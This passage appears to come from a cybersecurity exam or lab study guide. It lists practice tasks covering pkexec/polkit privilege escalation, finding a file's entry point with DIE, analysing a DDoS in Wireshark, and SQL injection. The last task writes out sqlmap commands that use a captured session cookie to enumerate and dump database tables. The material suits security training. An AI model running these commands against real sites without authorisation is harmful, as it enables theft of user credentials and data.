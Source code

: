 # Example-9
Escalate privilege on a Linux machine. User-level credentials are given.

**Tips:**
- Use `polkit` exploit to get root access.

**Suggested lecture:** Walkthrough - Escalate Privileges by Exploiting Vulnerability in pkexec

---

# Example-10
Find a file entry point. File is given.

**Tips:**
- Use DIE (Detect It Easy) or EXEinfo PE tools.

**Suggested lectures:**
- Analyze ELF Executable File using Detect It Easy (DIE)
- Find the Portable Executable (PE) Information of a Malware Executable File

---

# Example-11
From a pcap file, analyze a DDOS attack and provide the IP address that sent most packets.

**Tips:**
- Use Wireshark and the statistics tab.

**Suggested lecture:** Detect DDOS attack with Wireshark

---

# Example-12
You are provided a username/password for a website. Use SQL Injection attack to extract the password of another user.

**Tips:**
- Log in with the given credentials. Use cookies to extract the password of a user from the table with SQLMap.

Commands:
```bash
$ sqlmap -u "URL" --cookie="captured cookie of logged-in user" --dbs # For Database
$ sqlmap -u "URL" --cookie="captured cookie of logged-in user" -D <DATABASE_NAME> --tables # For Tables of selected Database
$ sqlmap -u "URL" --cookie="captured cookie of logged-in user" -D <DATABASE_NAME> -T <TABLE_NAME> --columns # For Column names
$ sqlmap -u "URL" --cookie="captured cookie of logged-in user" -D <DATABASE_NAME> -T <TABLE_NAME> --dump # Dump Table
```
